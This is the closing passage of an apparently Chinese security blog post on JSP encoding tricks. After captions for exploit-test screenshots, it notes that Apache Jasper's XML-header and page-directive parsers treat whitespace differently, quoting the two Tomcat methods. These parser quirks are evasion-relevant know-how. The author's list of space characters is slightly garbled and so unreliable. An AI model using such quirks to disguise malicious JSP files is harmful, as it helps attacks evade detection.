[](https://storage.tttang.com/media/attachment/2022/11/23/aff84d5c-5479-4b66-b459-36311b2be763.png)

测试利用

[](https://storage.tttang.com/media/attachment/2022/11/23/0de8f0da-0849-48a0-b7cf-9e9cb18fd894.png)

## [其他](#toc__7)

其实在这个过程当中还顺便发现了一个有趣的东西，虽然和讲编码的主题无关，但个人觉得比较有意思就顺便放在最后了，对于jsp不同的部分对应的空格判定是不同的

比如在对xml文件头做解析的时候(`<?xml version="1.0" encoding="utf-8" ?>`)

这里调用的是`org.apache.jasper.xmlparser.XMLChar#isSpace`

```plain
public static boolean isSpace(int c) {
        return c <= 0x20 && (CHARS[c] & MASK_SPACE) != 0;
} 
```

省去给大家看常量浪费时间，这里当课代表总结一下就是四个字符`\x0d`、`\x0a9`、`\x0a`、`\x0d`

而在识别`<%@ page language="java" pageEncoding="utf-16be"%>`这部分中对空格的判定调用的是`org.apache.jasper.compiler.JspReader#isSpace`，这里判断的空格只要保证在`\x20`之前即可

```plain
final boolean isSpace() {
  return peekChar() <= ' ';
}
```

当然更多的部分就不多说啦，毕竟已经和本文由点偏离啦
